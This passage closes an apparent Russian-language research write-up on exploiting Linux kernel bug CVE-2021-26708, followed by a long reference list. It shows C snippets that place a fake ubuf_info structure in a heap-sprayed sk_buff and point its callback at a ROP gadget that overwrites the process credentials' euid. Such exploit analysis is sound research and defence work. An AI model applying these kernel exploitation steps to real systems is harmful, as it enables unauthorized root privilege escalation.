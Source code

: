 ```c
    info->destructor_arg = uaf_write_value + MY_UINFO_OFFSET;

    uinfo_p = (struct ubuf_info *)(xattr_addr + MY_UINFO_OFFSET);
```

Структура `skb_shared_info` располагается в данных для heap spraying по отступу `SKB_SHINFO_OFFSET`, который составляет 3776 байт. Указатель `skb_shared_info.destructor_arg` должен хранить адрес структуры `ubuf_info`. Я создаю поддельную структуру `ubuf_info` по отступу `MY_UINFO_OFFSET` в самом сетевом пакете. Это возможно за счет того, что мне известен ядерный адрес атакуемого объекта `sk_buff`. Содержимое перезаписанного `sk_buff` изображено на следующей схеме.

<center><img src="/img/skb_payload.png" width="85%"></center>
<br/>

А теперь рассмотрим, на что указывает `destructor_arg`:

```c
    /*
     * A single ROP gadget for arbitrary write:
     *   mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
     * Here rdi stores uinfo_p address, rcx is 0, rsi is 1
     */
    uinfo_p->callback = ARBITRARY_WRITE_GADGET + kaslr_offset;
    uinfo_p->desc = owner_cred + CRED_EUID_EGID_OFFSET; /* value for "qword ptr [rdi + 8]" */
    uinfo_p->desc = uinfo_p->desc - 1; /* rsi value 1 should not get into euid */
```


[0]: https://nvd.nist.gov/vuln/detail/CVE-2021-26708
[1]: https://web.archive.org/web/20210308095728/http://zer0con.org/#speaker-section
[2]: https://youtu.be/EC8PFOYOUgU
[3]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/af_vsock.c
[4]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c0cfa2d8a788fcf45df5bf4070ab2474c88d543a
[5]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6a2c0962105ae8ceba182c4f616e0e41d7755591
[6]: https://github.com/google/syzkaller/
[7]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/virtio_transport_common.c#L490
[8]: https://arxiv.org/abs/2009.01694
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c518adafa39f37858697ac9309c6cf1805581446
[10]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[11]: https://cve.mitre.org/cve/request_id.html
[12]: https://seclists.org/oss-sec/2021/q1/107
[13]: https://en.wikipedia.org/wiki/Heap_spraying
[14]: https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=09fc68dc66f7597bdc8898c991609a48f061bed5
[16]: https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html
[17]: https://man7.org/linux/man-pages/man2/msgsnd.2.html
[18]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[19]: https://duasynt.com/blog/linux-kernel-heap-spray
[20]: https://man7.org/linux/man-pages/man2/msgrcv.2.html
[21]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[22]: https://www.hermitagemuseum.org/wps/portal/hermitage?lng=en
[23]: https://github.com/a13xp0p0v/linux-kernel-defence-map
[24]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety
[25]: https://www.grsecurity.net/how_autoslab_changes_the_memory_unsafety_game
[26]: https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html
[27]: https://github.com/a13xp0p0v/kconfig-hardened-check#questions-and-answers